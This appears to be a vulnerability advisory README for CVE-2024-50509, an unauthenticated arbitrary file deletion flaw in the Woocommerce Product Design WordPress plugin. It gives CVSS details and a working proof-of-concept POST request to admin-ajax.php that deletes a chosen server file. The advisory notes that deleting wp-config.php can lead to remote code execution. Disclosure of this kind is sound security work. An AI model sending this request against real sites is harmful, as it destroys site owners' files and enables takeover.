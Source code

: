 # CVE-2024-50509
Woocommerce Product Design <= 1.0.0 - Unauthenticated Arbitrary File Deletion

# Description

The Woocommerce Product Design plugin for WordPress is vulnerable to arbitrary file deletion due to insufficient file path validation in all versions up to, and including, 1.0.0. This makes it possible for unauthenticated attackers to delete arbitrary files on the server, which can easily lead to remote code execution when the right file is deleted (such as wp-config.php).

## Details

- **Type**: plugin
- **Slug**: woo-product-design
- **Affected Version**: 1.0.0
- **CVSS Score**: 9.8
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- **CVE**: CVE-2024-50509
- **Status**: Closed

POC
---

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

action=pc_remove_uploaded_image&file[path]=/var/www/html/readme.html
```
